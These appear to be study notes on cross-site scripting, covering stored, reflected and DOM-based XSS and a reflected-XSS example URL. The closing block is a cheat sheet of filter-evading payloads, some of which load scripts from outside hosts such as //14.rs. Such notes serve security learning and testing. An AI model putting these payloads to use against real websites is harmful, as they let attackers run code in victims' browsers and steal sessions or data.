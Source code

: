 [Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

It’s a type of injection which can allow an attacker to **execute malicious JavaScript** and have it execute on a victim’s machine.

1.  Stored XSS - the ***most dangerous type of XSS***. This is where a **malicious string originates from the website’s database**. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.
2.  Reflected XSS - the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an *attacker needs to trick a victim into clicking a URL to execute their malicious payload*.
3.  DOM-Based XSS - DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that **programs can change the document structure, style and content**. A web page is a document and this document can be either displayed in the browser window or as the HTML source.



---
# Reflected & Stored XSS
Suppose a website has a search function which receives the user-supplied search term in a URL parameter:
`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:
`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:
`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:
`<p>You searched for: <script>/* Bad stuff here... */</script></p>`


***If most of the tags & attributes are blocked, perform a Bruteforce with all the tags & attributes from the Cheatsheet!***

***If All Event Listeners & href Attributes are Blocked, use the below cheatsheet :-***
```cheatsheet
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```
